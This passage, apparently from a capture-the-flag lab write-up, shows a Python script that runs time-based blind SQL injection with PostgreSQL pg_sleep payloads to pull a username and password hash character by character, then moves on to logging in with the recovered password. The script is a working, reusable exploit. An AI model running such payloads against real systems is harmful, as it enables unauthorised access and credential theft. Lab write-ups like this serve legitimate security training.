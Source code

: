 ```py
    limit_inf = 1
    limit_sup = 1
    iterator = 0
    print("The username for the user id 1 is...")
    while(iterator < len(list)):
        for c in list[iterator]:
            payload = "SELECT+CASE+WHEN+COUNT((SELECT+username+FROM+users+WHERE+user_id=1+AND+SUBSTR(username," + str(limit_inf) + "," + str(limit_sup) + ")+SIMILAR+TO+'" + c +"'))<>0+THEN+pg_sleep(2)+ELSE+''+END%3b+--+-"
            url = url_true + payload
            res = requests.get(url, proxies=proxies)
            elapsed = res.elapsed.total_seconds()
            #print(elapsed)
            #print(c)
            # TRUE boolean message
            if elapsed > int(2):
                password.append(c)
                limit_inf = limit_inf + 1
                #limit_sup = limit_inf + 1
                sys.stdout.write(c)
                sys.stdout.flush()
                iterator = 0
            else:
                iterator = iterator + 1
                url = url_true
    password = ''.join(password)
    
def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    rhost = args.target

    '''Here we call the functions'''
    usernameExtractTimeBased(rhost)
    print()
    hashExtractTimeBased(rhost)
    print()
    
if __name__ == '__main__':
    main()
```

And now we try to login with this password

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-15-bmdyy-Order/2021-11-15-bmdyy-Order%2001:03:14.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-15-bmdyy-Order/2021-11-15-bmdyy-Order%2001:03:25.png)

